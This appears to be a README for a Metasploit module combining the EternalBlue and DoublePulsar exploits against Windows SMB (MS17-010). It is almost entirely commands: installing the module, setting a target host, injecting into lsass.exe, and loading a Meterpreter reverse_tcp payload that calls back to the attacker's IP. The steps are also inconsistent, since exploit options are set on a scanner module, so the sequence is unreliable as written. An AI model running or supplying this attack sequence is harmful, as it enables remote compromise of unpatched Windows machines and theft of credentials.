 # Eternalblue-Doublepulsar-Metasploit

cd Eternalblue-Doublepulsar-Metasploit
mv deps eternalblue_doublepulsar.rb /opt/metasploit/modules/exploits/windows/smb/

#in msf

use auxiliary/scanner/smb/smb_ms17_010 
set DOUBLEPULSARPATH /opt/metasploit/modules/exploits/windows/smb/deps/
set ETERNALBLUEPATH /opt/metasploit/modules/exploits/windows/smb/deps/
set RHOST target_ip


set PROCESSINJECT x
EXAMPLE X = lsass.exe
set TARGETARCHITECTURE x64

set WINEPATH /home/user/.wine/drive_c/
set target X

set payload windows/x64/meterpreter/reverse_tcp
set LHOST YOUR_IP

#exploit
